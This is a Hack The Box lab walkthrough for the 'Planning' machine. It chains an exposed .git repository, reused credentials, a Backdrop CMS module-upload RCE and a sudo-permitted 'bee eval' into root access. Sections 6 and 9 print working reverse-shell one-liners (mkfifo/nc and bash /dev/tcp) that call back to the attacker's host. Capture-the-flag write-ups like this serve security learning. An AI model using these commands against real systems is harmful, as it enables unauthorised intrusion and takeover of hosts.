 
# HTB Walkthrough — Machine: Planning

**Target IP:** `10.10.11.58`  
**Author:** Miguel Reis

## 1. Initial Scan

I began with a port scan to identify open services. It revealed SSH on port 22 and an Apache HTTP server on port 80.

![[Pasted image 20250613010742.png]]

## 2. Website Enumeration

Opening the site in the browser showed what appears to be a blog about dogs. What a surprise xD.

It also had a login page, i tried default credentials but didn’t work.

I followed up with an Nmap scan using the `-sC` flag for default scripts:

![[Pasted image 20250614162833.png]]

The results revealed a few key things:
- The web server is running **Backdrop CMS**
- A `.git/` directory is exposed
- The `robots.txt` file disallows access to **22 paths**, hinting at admin pages and hidden areas

> 📁 `.git/` – This suggests developers accidentally exposed the repository.  
> 📄 `robots.txt` – Good for discovering hidden admin paths.

I manually visited the disallowed paths and eventually found an interesting config file at:

```
http://10.10.11.58/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json
```

This file is part of Backdrop’s **configuration management system**, where site config (like URLs, settings, email, etc.) is stored in JSON format. Here, I found a user email address:

![[Pasted image 20250613021641.png]]

I also spotted references on other files suggesting the CMS version might be **1.27.1**, though not confirmed yet.

## 3. GIT Repository

Knowing the `.git/` directory was exposed, I used [git-dumper](https://github.com/arthaud/git-dumper) to retrieve the repository. This tool recursively downloads a Git repo when directory listing is available.

Once cloned, I inspected the files and found **credentials** in `settings.php`.

![[Pasted image 20250615005406.png]]

## 4. Backdrop CMS Access

Using the credentials found, I tried logging into the website with common usernames like `admin` and `root`, but no luck.

I then used the **email address** found earlier (`update.settings.json`) to guess a username: `tiffany` which worked. Giving access to the Backdrop CMS admin panel.

Under **Reports > Status Report**, I confirmed the Backdrop version as **1.27.1**:

![[Pasted image 20250615010655.png]]

## 5. RCE Exploit

Looking up vulnerabilities for Backdrop 1.27.1, I found [this exploit](https://www.exploit-db.com/exploits/52021), which abuses the **module installation feature** to achieve Remote Code Execution (RCE).
####  How the Exploit Works:
The exploit creates a malicious module archive (ZIP) containing PHP code. When installed via the admin panel, Backdrop extracts and runs it under `/modules/`, giving us access to a web shell.

I followed the instructions and went to:
`Functionality > Install new modules > Manual installation`

> ⚠️ **Note:**  
> Backdrop didn’t allow `.zip` uploads, so I re-compressed the exploit as a `tar.gz`.

After uploading, the shell became available at:

```
http://10.10.11.58/modules/shell/shell.php
```

![[Pasted image 20250615011859.png]]

## 6. Reverse Shell

To get a more stable and interactive shell, I upgraded to a reverse shell.

I started a listener on my machine:

```bash
nc -nvlp 8022
```

Then ran the following from the web shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.99 8022 >/tmp/f
```

Successfully getting the reverse shell

![[Pasted image 20250615012319.png]]

## 7. User Access

Enumerating the system, I found two users: `jobert` and `johncusack`. I tried the credentials from `settings.php` and successfully logged in as `johncusack` via SSH.

I could then retrieve the user flag on the home directory of the user.
## 8. Privilege Escalation

To escalate privileges, I ran `sudo -l` to check allowed commands:

![[Pasted image 20250615013000.png]]

Turns out I could run `/usr/local/bin/bee` as root. After some research i found it is a CLI tool for managing Backdrop CMS.

After running `bee help`, I found it includes the `eval` command — which can execute **arbitrary PHP code** on the server.

![[Pasted image 20250615013314.png]]

> ℹ️ **Note:**  
> The `bee` command must be run from within the Backdrop installation directory. I changed into `/var/www/html` before running it.

I tested it with a basic command and confirmed it worked:

![[Pasted image 20250615013943.png]]

## 9. Root Access

With `eval` working, I used it to trigger a reverse shell as root.

First, I started a listener:

```bash
nc -nvlp 8022
```

Then executed:

```bash
sudo /usr/local/bin/bee eval "system('bash -c \"bash -i >& /dev/tcp/10.10.14.5/8022 0>&1\"');"
```

Successfully getting root access to the machine.

---

## 🧠 Final Thoughts

This box was a great example of how multiple small misconfigurations like exposing the git repository, credential reuse, and over-permissive sudo rights can be chained together for a full system compromise.
